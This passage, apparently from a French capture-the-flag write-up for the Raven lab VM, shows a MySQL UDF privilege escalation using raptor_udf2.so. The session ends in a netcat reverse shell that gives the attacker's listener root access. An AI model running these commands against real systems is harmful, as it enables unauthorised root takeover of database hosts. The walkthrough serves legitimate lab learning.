 ```console
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 38
Server version: 5.5.60-0+deb8u1 (Debian)

--snip--

mysql> use mysql;
use mysql;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> create table foo(line blob);
create table foo(line blob);
Query OK, 0 rows affected (0.01 sec)

mysql> insert into foo values(load_file('/tmp/raptor_udf2.so'));
insert into foo values(load_file('/tmp/raptor_udf2.so'));
Query OK, 1 row affected (0.00 sec)

mysql> select * from foo into dumpfile '/usr/lib//mysql/plugin/raptor_udf2.so';
<to dumpfile '/usr/lib//mysql/plugin/raptor_udf2.so';
Query OK, 1 row affected (0.00 sec)

mysql> create function do_system returns integer soname 'raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
Query OK, 0 rows affected (0.00 sec)

mysql> select * from mysql.func;
select * from mysql.func;
+-----------+-----+----------------+----------+
| name      | ret | dl             | type     |
+-----------+-----+----------------+----------+
| do_system |   2 | raptor_udf2.so | function |
+-----------+-----+----------------+----------+
1 row in set (0.00 sec)

mysql> select do_system('nc -e /bin/bash 192.168.56.101 12345');
select do_system('nc -e /bin/bash 192.168.56.101 12345');
^C
```

... et enfin, on récupère la connexion sur le poste de l'attaquant ! Root woot woot ! 

```console
root@blinils:~# nc -nlvp 12345
listening on [any] 12345 ...
connect to [192.168.56.101] from (UNKNOWN) [192.168.56.102] 40580

id
uid=0(root) gid=0(root) groups=0(root)

uname -a
Linux Raven 3.16.0-6-amd64 #1 SMP Debian 3.16.57-2 (2018-07-14) x86_64 GNU/Linux

ls -al /root/flag4.txt
-rw-r--r-- 1 root root 397 Nov  9 08:31 /root/flag4.txt

```

Merci beaucoup à [William McCann](https://wjmccann.github.io/) pour cette VM améliorée !

Après Raven: 1, c'était très plaisant d'arriver jusqu'à root sans aucun mot de passe par défaut, ou de privilèges sudo abusifs. 